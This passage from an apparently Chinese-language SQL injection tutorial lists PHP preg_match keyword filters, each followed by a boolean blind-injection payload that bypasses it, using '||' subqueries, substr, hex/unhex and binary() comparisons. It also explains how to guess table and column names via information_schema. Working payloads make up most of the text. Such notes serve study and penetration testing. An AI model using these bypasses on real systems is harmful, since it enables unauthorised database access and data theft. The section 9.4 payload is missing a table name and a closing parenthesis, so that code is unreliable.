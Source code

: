 绕过：

```sql
|| (select user from users where user_id=1)='admin'
```

{{< admonition question >}}

怎么知道 user 表、user 列、admin 字段？

1. 表名确实可以猜解，尤其是 user 这种常用表
2. 如果猜不到，通过 `information_schema.tables` 及 `substr` 来联合判断
3. 列名和字段内容也是同理

{{< /admonition >}}

### 9.3 where 过滤绕过

过滤代码：`preg_match('/(and|or|union|where)/i', $id)`

绕过：`|| (select user from users limit 1,1)='admin'`

### 9.4 limit 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit)/i', $id)`

绕过：`|| (select min(user) from group by user_id having user_id=1 ='admin'`

### 9.5 group by 过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by)/i', $id)`

绕过：

```sql
||(select substr((select group_concat(name)name from test), 1, 1))='t'
```

### 9.6 select 及单引号过滤绕过

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\')/i', $id)`

绕过：

布尔盲注不需要 select

```sql
|| substr(name,1,1)=0x74 || substr(name,1,1)=unhex(74)
```

### 9.7 hex、unhex 及 substr 过滤绕过 - binary

过滤代码：`preg_match('/(and|or|union|where|limit|group by|select|\'|hex|unhex|substr)/i', $id)`

绕过：

```sql
|| binary(name) = 0x74657374
```
